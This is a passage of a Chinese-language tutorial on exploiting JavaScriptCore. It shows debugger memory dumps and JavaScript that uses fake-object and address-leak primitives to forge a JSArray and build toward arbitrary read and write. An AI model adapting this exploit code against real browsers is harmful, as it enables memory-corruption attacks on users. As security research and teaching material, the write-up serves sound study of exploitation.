 ```


```

内存布局如下：

```
// container 对象：
Object: 0x7fe0cc78c000 with butterfly (nil) (Structure 0x7fe0cc7bfde0:[0xd0bd, Object, {cellHeader:0, butterfly:1}, NonArray, Proto:0x7fe10cbf6de8, Leaf]), StructureID: 53437

pwndbg> x/4gx 0x7fe0cc78c000
0x7fe0cc78c000: 0x010018000000d0bd  0x0000000000000000
0x7fe0cc78c010: 0x0108230700000000  0x00007fe10cb7cae8 // <---伪造的Butterfly，覆盖成目标对象地址
              // 伪造的JSCell
pwndbg> x/gx 0x00007fe10cb7cae8
0x7fe10cb7cae8: 0x010823070000f1aa // <---- StructureID被当作数据输出


```

### 构造任意地址读写

泄露 StructureID 后，我们可以仿造泄露 StructureID 方法一那样构造一个 JSArray，只不过现在 StructureID 填充的是有效的，可以根据 Butterfly 进行读写。

（1）首先伪造一个 driver object，类型为对象类型数组，将 driver object 的 butterfly 指向 victim object，此时访问 driver[1] 就可以访问 victim object 的 butterfly，之后申请一个 ArrayWithDouble（浮点数类型）的数组 unboxed，通过 driver[1] = unboxed 将 victim object 的 butterfly 填充为 unboxed 对象地址，同理此时访问 victim[1] 就可以访问 unboxed object 的 butterfly。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201225182727-c9315496-469b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201225182727-c9315496-469b-1.png)

这一步我们可以泄露 unboxed object 的 butterfly 内容。代码如下：

```
var victim = [noCoW, 14.47, 15.57];
victim['prop'] = 13.37;
victim['prop_1'] = 13.37;

u32[0] = structureID;
u32[1] = 0x01082309-0x20000;
var container = {
    cellHeader: f64[0],
    butterfly: victim   
};
// build fake driver
var containerAddr = AddrOf(container);
var fakeArrAddr = containerAddr + 0x10;
var driver = FakeObj(fakeArrAddr);

// ArrayWithDouble
var unboxed = [noCoW, 13.37, 13.37];

// leak unboxed butterfly's addr
driver[1] = unboxed;
var sharedButterfly = victim[1];
print("[+] shared butterfly addr: " + hex(f2i(sharedButterfly)));


```
